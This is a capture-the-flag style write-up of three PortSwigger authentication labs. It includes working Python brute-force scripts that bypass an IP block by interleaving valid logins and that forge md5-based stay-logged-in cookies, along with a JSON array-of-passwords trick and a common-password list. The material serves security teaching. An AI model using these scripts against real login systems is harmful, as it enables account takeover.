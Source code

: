 # Authentication Vulnerabilities

<h3> Broken brute-force protection, IP block</h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/503c5d03-8fab-4ecd-93be-77c2e1a16e64)

Going over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/db03e8c5-4227-485b-9051-4a96584bede6)

But since we're interested in the login page I went there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/411fdbb1-67db-49d8-8beb-a640a8884278)

First thing we should note is that we're already given a cred to login as `wiener:peter` but the goal is to brute force the user `carlos` password with the password wordlist given

Let us login as the user *wiener* first
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8d66fd76-235f-4da4-9395-6001a09673e3)

It works cool. When we try loggin in as user carlos with a random cred it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6ee17ee-7936-41e2-94bb-f198501862c9)

And after the third attempt of trying random password it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d5dbd879-c1aa-4d34-80db-1390c6e3ab69)

Hmmmm we've been blocked for one minute

After waiting for a minute and then trying to login as user *wiener* works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6238793-bfe4-437a-8f87-e597bc785b2f)

I logged out then tried loggin in as user carlos with random password but for just two request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a0b860a9-8975-4a48-8c79-807a8a91642c)

Then the third request I logged in as user wiener and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/249e4a48-e522-4124-803f-852803064425)

So now the logic behind this login function is that:
- After two failed login we get incorrect password as expected
- Then the third login when tried with a valid cred works which prevents the the web app from blocking our IP

Cool with this we know that we can brute force the user's password for every two requests made and the third request we will login as weiner

I made a script for that though *Portswigger* recommended a burp extension
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2392dd57-3372-4b21-8781-612ee1ef8f79)

Here's my script 

```python
#!/usr/bin/python3
import requests
import time
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

with open('passwords.txt', 'r') as f:
    passwords = [passwd.strip() for passwd in f.readlines()]

url = 'https://0a42008903a8b19183b582120062005e.web-security-academy.net/login'

data = {
    'username': 'carlos',
    'password': ''
}

valid_cred = {
    'username': 'wiener',
    'password': 'peter'
}

# Make a valid request to prevent IP Block
req = requests.post(url, data=valid_cred, verify=False, allow_redirects=True)

count = 0

for password in passwords:
    data['password'] = password
    req = requests.post(url, data=data, verify=False)

    if 'Incorrect password' not in req.text:
        print(f'Password found: {password}')
        break

    count += 1

    # On every 3rd request bypass IP blocker by logging in with valid cred
    if count == 2:
        print(f'Trying: {password}')
        req = requests.post(url, data=valid_cred, verify=False)

        count = 0
```

Running it gives the password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a37c4341-dd38-491a-a0a1-bf0c83de5afd)

And automatically it shows solved
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/38123a6b-bac9-492a-b674-a3f050160a32)


<h3> Broken brute-force protection, multiple credentials per request </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/df0abf24-e21d-4afa-a935-9786792d7b51)

Moving over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4a5577ac-d4aa-481e-a721-b9c9fb61163e)

Since the task is to login as user carlos let us go to the login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66e9bcee-fae7-4bb5-8460-16481de430c1)

After trying the username *carlos* with a random password and intercepting it in burp suite I get this request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/deebfa7f-f55d-4dd3-a7bd-46a16ccb6356)

Notice the way the data is passed to the web server in form of json

```
{"username":"carlos","password":"deyplay"}
```

If we try to brute force the password we get rate limited but here's something way more cooler

We know that this is json right?

Therefore we can pass the password values as an array 

So basically the web server will loop through the password variable till it gets the right password

I used python to make it a better json format

Here's my script 

```python
import json

password_list = [
    "123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111",
    "1234567", "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein",
    "shadow", "master", "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael",
    "654321", "superman", "1qaz2wsx", "7777777", "121212", "000000", "qazwsx", "123qwe",
    "killer", "trustno1", "jordan", "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster",
    "soccer", "harley", "batman", "andrew", "tigger", "sunshine", "iloveyou", "2000",
    "charlie", "robert", "thomas", "hockey", "ranger", "daniel", "starwars", "klaster",
    "112233", "george", "computer", "michelle", "jessica", "pepper", "1111", "zxcvbn",
    "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753",
    "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love",
    "ashley", "nicole", "chelsea", "biteme", "matthew", "access", "yankees", "987654321",
    "dallas", "austin", "thunder", "taylor", "matrix", "mobilemail", "mom", "monitor",
    "monitoring", "montana", "moon", "moscow"
]

json_array = json.dumps(password_list)

print(json_array)
```

Running it gives us a better json format
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/63299bd1-61aa-486a-b3c2-2ae3c45ada99)

Now I replaced it as the password value in the request 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3443cc8f-3ab2-47db-870c-7ad22f3c79a3)

After forwarding the request I got logged in
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2c1a25b8-2c6c-4624-8de5-2cc007bf63b9)


<h3> Brute-forcing a stay-logged-in cookie </h3>
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e73798c-5592-4825-9877-9c310fb72049)

Going over to the web app login page shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57ea7e14-ecf1-4395-81bb-ce6635679bc5)

When i tried login in as user wiener with the password as peter and i intercepted the request in burp suite i saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b1674a4c-8097-4239-a63e-9ea832d824fd)

Then I got logged in 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1eb89a5a-adfd-4aa6-a6ae-297185e258bd)

Nothing too interesting there

But now there's a remember me button on the login page 

So i went ahead to login again but this time around click the button
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/33cdb04d-1233-4c55-85a6-e5aef08e538f)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/39057f15-b8fb-477d-b945-326f2d228e9c)

It created a stay logged in cookie for us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1ed563b4-599d-4760-94c1-68e3286c8a13)

Seems like it's encoded

Using cyberchef I decoded it and it turns out to be a base64 string
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/49ac80ca-78c3-4a30-8a48-8084848b1499)

```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Hmmmm 🤔

This looks like a hash

Using crackstation to decode it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7993e2e3-a9da-42d8-8c34-45de0f758b95)

Now we know the way the web server creates the stay logged in cookie

By taking the base64 encoded form of the hash of a password along side with the username:

```
base64(username:md5hash(password))
```

Since the aim is to get logged in as user carlos and we are already given a password list

I wrote a script to automate that for me

```python
import requests
from base64 import b64encode, b64decode
from hashlib import md5
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

with open('passwords.txt', 'r') as f:
    passwords = [i.strip() for i in f.readlines()]

url = 'https://0aa9007b04ad189280c7801c00ea00ed.web-security-academy.net/my-account'
proxy = {'https': 'http://127.0.0.1:8080'}

for password in passwords:
    bytes_ = password.encode()
    hash_ = md5(bytes_).hexdigest()
    signed_in = 'carlos:' + hash_
    encoded = b64encode(signed_in.encode()).decode()
    cookies = {
        'stay-logged-in': encoded
    }

    req = requests.get(url, cookies=cookies, proxies=proxy, verify=False)
    if len(req.text) != 4884:
        print('Password found: ' + password)
        break
```

Running it gives us the password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8092d91e-309f-49df-b33a-ce2a38bfab8e)

We can then use that to login
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8fdcddfc-68cb-4bfb-ab23-99fe504f87a2)

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

